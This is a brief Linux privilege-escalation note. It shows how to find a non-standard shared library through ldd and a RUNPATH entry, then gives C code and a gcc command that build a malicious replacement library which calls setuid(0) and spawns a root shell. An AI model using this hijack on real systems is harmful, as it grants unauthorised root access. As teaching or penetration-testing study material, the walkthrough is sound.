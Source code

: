 #Linux_PrivilegeEscalation 

---

- Assume we have a binary called `test`. To check all the shared libraries this binary uses we can use the following command:
```bash
ldd test


linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)

```

- In the above, `libshared.so` looks like a non-standard library. We can load shared libraries from custom locations by setting the `RUNPATH` variable => To check this path we use the command below:
```bash
readelf -d test | grep RUNPATH
```

and assume we get the following output:
```bash
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

- We can then compile the following C-code to get root:
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```

as follows:
```bash
gcc -fPIC -shared root.c -o /development/libshared.so
```
